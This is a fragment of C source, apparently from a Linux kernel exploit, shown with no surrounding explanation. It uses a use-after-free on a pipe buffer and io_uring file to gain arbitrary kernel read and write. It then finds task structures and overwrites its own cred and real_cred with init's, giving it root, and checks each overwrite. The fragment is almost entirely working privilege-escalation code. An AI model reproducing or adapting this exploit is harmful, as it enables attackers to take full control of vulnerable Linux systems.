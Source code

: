 ```c
    if (!g_target_task) { err("Unable to find target task!"); }
    if (!g_our_task)    { err("Unable to find our task!"); }

    // We found the target task
    info("Found '%s' task @ 0x%lx", TARGET_TASK, g_target_task);
    info("Found '%s' task @ 0x%lx", OUR_TASK, g_our_task);

    // Set where gadgets
    g_cred_where = g_target_task + CRED_OFF;
    g_real_cred_where = g_target_task + REAL_CRED_OFF;
    g_nsproxy_where = g_target_task + NSPROXY_OFF;

    info("Target cred @ 0x%lx", g_cred_where);
    info("Target real_cred @ 0x%lx", g_real_cred_where);
    info("Target nsproxy @ 0x%lx", g_nsproxy_where);

    // Locate our file descriptor table
    g_files = g_our_task + FILES_OFF;
    g_fdt = read_8_at(g_files) + FDT_OFF;
    g_file_array = read_8_at(g_fdt) + FD_ARRAY_OFF;

    info("Our files @ 0x%lx", g_files);
    info("Our file descriptor table @ 0x%lx", g_fdt);
    info("Our file array @ 0x%lx", g_file_array);

    // Find our pipe address
    find_pipe_buf_addr();
    info("UAF file addr: 0x%lx", g_file_addr);
    info("Pipe buffer addr: 0x%lx", g_pipe_buf);

    // Set the global scratch space side of the page
    set_scratch_space();
    info("Scratch space base @ 0x%lx", g_scratch);

    // Make a copy of our real io_uring file descriptor since we need to fake
    // one
    info("Making copy of legitimate io_uring fd...");
    make_ring_copy();
    info("Copy done");

    // Overwrite our task's cred with init's
    info("Overwriting our cred with init's...");
    overwrite_cred();

    // Make sure it's correct
    uint64_t check_cred = read_8_at(g_cred_where);
    if (check_cred != g_cred_what)
    {
        err("check_cred: 0x%lx != g_cred_what: 0x%lx",
            check_cred, g_cred_what);
    }

    // Overwrite our real_cred with init's cred
    sleep(1);
    info("Overwriting our real_cred with init's...");
    overwrite_real_cred();

    // Make sure it's correct
    check_cred = read_8_at(g_real_cred_where);
    if (check_cred != g_cred_what)
    {
        err("check_cred: 0x%lx != g_cred_what: 0x%lx", check_cred, g_cred_what);
    }
```